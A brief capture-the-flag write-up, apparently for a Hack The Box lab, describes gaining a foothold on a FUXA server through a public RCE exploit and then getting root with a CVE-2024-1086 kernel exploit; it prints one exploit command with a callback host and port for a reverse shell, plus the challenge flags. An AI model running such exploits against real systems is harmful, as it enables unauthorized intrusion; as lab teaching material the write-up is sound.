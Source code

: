 ### Challenge Description

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/67f3d1ea-2d8c-4121-b230-dd6fb66f75ba)

## Enumeration

A static looking page is shown but a link in an article hides the way forward:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/0c747a05-2acb-4037-9d75-a4c394788ecf)

It redirects us to a subdomain that we didn't find by fuzzing:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/168511f2-ef0a-42c4-b25d-d3d5883ba68f)

A quick google search showed that it has an RCE vulnerability:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/fa7799d3-9ca6-487a-b110-010411c102a2)


## Foothold

We download and run the [exploit](https://github.com/rodolfomarianocy/Unauthenticated-RCE-FUXA-CVE-2023-33831):  

`python3 fuxaexploit.py --rhost fuxa.survivor.htb --rport 80 --lhost 10.10.14.34 --lport 3001`

Sure enough, we get a foothold and the user flag:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/bc1486d0-9e5a-4b7e-803f-20ac75e94830)

`HTB{FuXa_ExPloIT_4_RC3}`

## Privesc

After a bit of manual enumeration, linpeas scanning and pspy observations, I didn't see anything sticking out to me as an obvious privilege escalation vector. When that happens, I usually look for kernel exploits and remembered that there is a recent 2024 [CVE](https://github.com/Notselwyn/CVE-2024-1086?tab=readme-ov-file)

I downloaded the precompiled binary and ran it to get root and the flag:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/47408665-3875-44a2-be85-05661f9096e0)

`HTB{KeRnEnL_ExP_4_r00t}`
